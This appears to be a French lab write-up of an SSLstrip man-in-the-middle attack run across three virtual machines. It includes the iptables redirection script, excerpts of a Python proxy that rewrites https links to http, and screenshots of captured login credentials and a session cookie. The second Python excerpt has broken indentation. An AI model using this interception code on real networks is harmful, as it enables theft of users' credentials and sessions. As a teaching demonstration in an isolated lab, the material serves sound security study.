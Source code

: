# Attaque SSLstrip

L'attaque SSLstrip a été présentée pour la première fois par Moxie à la Blackhat de 2009. Cette attaque consiste à remplacer dans les requêtes HTTP, toutes les références à des URL pointant vers des liens HTTPS par leurs version HTTP. Cette attaque était efficace notamment lorsque seule la page de login était sécurisée en HTTPS mais que le reste du site utilisait le protocole HTTP.

----------------------------------------------

# Configuration de l'environnement de test

L'environnement de test consiste en trois machines virtuelles :

- grave, la machine cliente et victime.

- opeth, la machine serveur.

- immortal, la machine attaquante, positionnée en homme du milieu.

Voici la topologie des machines mise en place :

```
### twolans
#
#  opeth - [s1] - immortal - [s2] - grave
#
#
#

# switches

SWITCH s1
SWITCH s2
HOST alpinex   grave    s2
HOST debian10  immortal s1 s2
HOST debian10  opeth    s1
```

Cette topologie n'est pas forcément réaliste car rare sont les cas où l'attaquant est dans le réseau du client attaqué.

Toutes les configurations initiales des machines se trouvent dans le fichier __"start.sh"__ de chaque dossier correspondant aux machines.

## Machine "grave" (147.210.13.2)

Cette machine utilise l'environnement graphique de la distribution Linux Alpine. Le navigateur firefox est utilisé pour la démonstration.

## Machine "opeth" (147.210.12.1)

Cette machine héberge un serveur HTTP(s) Nginx sur le port 80 et 443. Le certificat utilisé pour les connections HTTPS a été généré avec openssl :

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

Le serveur héberge deux pages :

  - une page index.php que l'on accéde en HTTP et présentant un formulaire de login.

  - une page secure.php que l'on accéde en HTTPS depuis la page index.php.

## Machine "immortal" (147.210.12.2 - 147.210.13.1)

C'est sur cette machine que se trouve le PoC de l'attaque, dans le fichier "/mnt/host/attack.sh". Cette VM est configuré pour forwarder les paquets entre opeth et grave.


------------------------------------------------------

# Démo

Pour lancer l'environnement de test, il faut lancer la commande suivante (on aura récupéré au préalable le dépôt qemunet) :

```
$ ./qemunet/qemunet.sh -x -S sslstrip
```

À partir de là, les trois machines sont lancées.

## Étape 1 : avant l'attaque

Lorsque l'attaque n'est pas encore lancée, nous pouvons voir sur la machine grave, que tout se passe normalement et que la requête POST passe bien en HTTPS (immortal est donc incapable de voir les identifiants envoyés) :

![screen1](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen1.png)

L'encadré rouge montre bien que le POST est effectué en HTTPS, sur la page secure.php.

![screen2](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen2.png)

Nous arrivons alors sur la page secure.php, en HTTPS : immortal n'a pas pût voir nos échanges sur cette page sécurisée.

![screen3](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen3.png)

## Etape 2 : lancement de l'attaque

Comme expliqué précédement, pour lancer l'attaque, il faut exécuter le fichier __"/mnt/host/attack.sh"__ depuis immortal.
Voici son contenu :

```
PROXY_PORT=4242

iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $PROXY_PORT

/mnt/host/sslstrip.py $PROXY_PORT
```
On peut constater que les flux TCP à destination du port 80 (HTTP) sont redirigées vers le port d'écoute du proxy qui est chargé d'analyser et traiter les requêtes.

Nous pouvons maintenant lancer l'attaque depuis la machine immortal :

![screen4](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen4.png)

### Explication du code

#### Réception des requêtes

Lors de la réception de requêtes, il s'agit de savoir si l'on doit :

- fermer la connexion (le client ou le serveur a fermé la connection)
- établir une connexion https, dans le cas où le client demande la page "secure.php"
- établir une connexion http, dans le cas où le client demande la page d'accueil

```python
def __recv(self, csock):
        fw_sock = self.__csockets[csock]
        data = csock.recv(BUFFER_SIZE)
        if len(data) == 0:
            self.__close_conn(csock)
            self.__close_conn(fw_sock)
        else:
            print(data)

            if fw_sock is None:
                m = re.search(b'(GET|POST) (\S+) HTTP/\d.\d', data)
                if m is not None and m.group(2) in HTTPS_URL:
                    self.__new_https_conn(csock)
                else:
                    self.__new_http_conn(csock)
                fw_sock = self.__csockets[csock]
            data = self.__replace_https_to_http(data)
            data = self.__replace_content_length(data)
            fw_sock.send(data)

```

A la fin, on transforme tous les liens __https__ trouvé en __http__ et on recalcule la taille de la requête (entête Content-Length).

#### Transformation des liens

```python
def __replace_https_to_http(self, data):
        return re.sub(b'https://', b'http://', data)

def __replace_content_length(self, data):
	try:
		idx = data.index(b"\r\n\r\n")
        length = len(data) - idx - 4
        return re.sub(b'Content-Length: (\d+)',
                      b'Content-Length: %d' % length, data, 1)
    except:
        return data
```

La transformation se fait à l'aide d'une expression régulière qui remplace __https://__ par __http://__. La deuxième fonction recalcule le Content-Length en recherchant le début des données (après la séquence "\r\n\r\n").

## Etape 3 : pendant l'attaque

Lorsque l'attaque est lancée, on peut voir que tous les liens https:// sont remplacés par http://. La machine immortal est donc capable d'intercepter les échanges réalisés sur la page secure.php. Ici on voit dans l'encadré rouge, que le lien https:// a bien été remplacé par un lien non sécurisé http:// :

![screen5](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen5.png)

Nous constatons que nous arrivons sur la page secure.php en HTTP : notre navigation n'est pas sécurisée !

![screen6](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen6.png)

La machine immortal a été capable de capturer non seulement les identifiants du formulaire, mais également le cookie de session :

![screen7](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen7.png)
